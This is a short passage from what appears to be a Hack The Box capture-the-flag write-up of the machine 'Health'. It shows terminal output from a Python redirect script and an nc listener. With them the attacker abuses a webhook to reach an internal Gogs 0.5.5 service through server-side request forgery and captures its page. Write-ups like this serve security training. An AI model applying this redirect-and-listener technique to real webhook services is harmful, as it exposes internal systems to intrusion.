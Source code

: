 ![](/assets/images/htb-writeup-health/health02.png)

```bash
➜  health python3 redirect.py 80 http://127.0.0.1:3000
10.129.9.180 - - [23/Aug/2022 12:32:01] "GET / HTTP/1.0" 302 -

➜  health nc -lvnp 8888                               
listening on [any] 8888 ...
connect to [10.10.14.20] from (UNKNOWN) [10.129.9.180] 59780
POST / HTTP/1.1
Host: 10.10.14.20:8888
Accept: */*
Content-type: application/json
Content-Length: 7663
Expect: 100-continue

{"webhookUrl":"http:\/\/10.10.14.20:8888\/","monitoredUrl":"http:\/\/10.10.14.20\/","health":"up","body": 
[... snip ...] 
content=\"Gogs(Go Git Service) a painless self-hosted Git Service written in Go\"
[... snip ...]
id=\"footer-rights\">\u00a9 2014 GoGits \u00b7 Version: 0.5.5.1010 Beta
```
